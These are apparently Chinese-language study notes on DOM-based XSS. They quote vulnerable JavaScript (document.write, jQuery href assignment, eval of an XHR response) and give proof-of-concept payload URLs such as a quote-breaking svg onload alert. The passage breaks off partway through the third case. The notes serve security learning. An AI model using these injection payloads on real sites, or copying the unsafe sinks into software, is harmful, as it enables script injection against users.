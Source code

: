 
----**dom xss**

    function trackSearch(query) {
                            document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
                        }
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query) {
                            trackSearch(query);
                        }
可以看到会从window.location.search获取search参数值写入img标签<br>
所以双引号闭合就可以xss<br>
**payload**

    https://www.xxxx.com/xxx?search="><svg/onload="alert(1)
----**jQuery dom xss**

    <div class="is-linkback">
                                <a id="backLink">Back</a>
                            </div>
                            <script>
                                $(function() {
                                    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
                                });
                            </script>
可以看到会从window.location.search获取returnPath参数值写入a标签href属性<br>
所以a标签 写入JavaScript:alert() 点击即可触发<br>
**payload**

    https://www.xxxx.com/xxx?returnPath=JavaScript:alert()
    点击a标签的*Back*按钮就会触发
   
  ----**反射+dom xss**<br>
   https://www.xxxx.com/?search=1<br>
   首先一个搜索页面加载了一段js<br>
  

     (function() {
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
                eval('var searchResultsObj = ' + this.responseText);
                displaySearchResults(searchResultsObj);
            }
        };
        xhr.open("GET", "/search-results" + window.location.search);
        xhr.send();
        function displaySearchResults(searchResultsObj) {
        ..........省略 
可是看到搜索是xhr去发起请求获取结果再显示出来<br>
xhr发起的请求<br>
https://www.xxxx.com/search-results?search=1<br>
返回内容<br>
